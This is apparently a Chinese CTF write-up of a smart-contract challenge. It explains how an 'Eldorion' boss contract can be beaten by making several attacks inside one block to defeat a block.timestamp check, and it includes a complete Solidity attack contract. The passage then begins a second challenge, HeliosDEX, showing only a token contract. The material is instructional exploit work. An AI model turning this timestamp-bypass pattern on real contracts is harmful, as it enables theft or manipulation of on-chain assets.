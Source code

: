 由题意我们可以知道我们需要击败300血的Eldorion，但是每次攻击最多只能攻击100点血量，而且每次攻击会将上次攻击时间和本次攻击时间进行比对，如果本次攻击时间大于上次攻击时间则Eldorion会回满血

看起来这就是一个无底洞，但是我们可以轻松发现记录攻击时间使用的是`block.timestamp`，即区块生成时间，因此我们只需要让多次攻击处于同一区块内就可以绕过时间检测，同时需要注意不要Overkill，否则攻击会失败

```solidity
// attack.sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

interface IEldorion {
    function attack(uint256 damage) external;
    function isDefeated() external view returns (bool);
}

contract Attack{
    IEldorion public eldorion;
    constructor(address _eldorion){
        eldorion = IEldorion(_eldorion);
    }

    function attack() public{
        for(uint8 i=0; i<3; i++){
            eldorion.attack(100);
        }
        require(eldorion.isDefeated(), "Failed to solve the problem");
    }
}
```

部署后调用`attack()`即可完成本题

是不是有点太水了，那就接着再水一题吧，是同一个CTF的第2题HeliosDEX：

```solidity
// HeliosDEX.sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.28;

/***
    __  __     ___            ____  _______  __
   / / / /__  / (_)___  _____/ __ \/ ____/ |/ /
  / /_/ / _ \/ / / __ \/ ___/ / / / __/  |   / 
 / __  /  __/ / / /_/ (__  ) /_/ / /___ /   |  
/_/ /_/\___/_/_/\____/____/_____/_____//_/|_|  
                                               
    Today's item listing:
    * Eldorion Fang (ELD): A shard of a Eldorion's fang, said to imbue the holder with courage and the strength of the ancient beast. A symbol of valor in battle.
    * Malakar Essence (MAL): A dark, viscous substance, pulsing with the corrupted power of Malakar. Use with extreme caution, as it whispers promises of forbidden strength. MAY CAUSE HALLUCINATIONS.
    * Helios Lumina Shards (HLS): Fragments of pure, solidified light, radiating the warmth and energy of Helios. These shards are key to powering Eldoria's invisible eye.
***/

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import "@openzeppelin/contracts/utils/math/Math.sol";

contract EldorionFang is ERC20 {
    constructor(uint256 initialSupply) ERC20("EldorionFang", "ELD") {
        _mint(msg.sender, initialSupply);
    }
}

```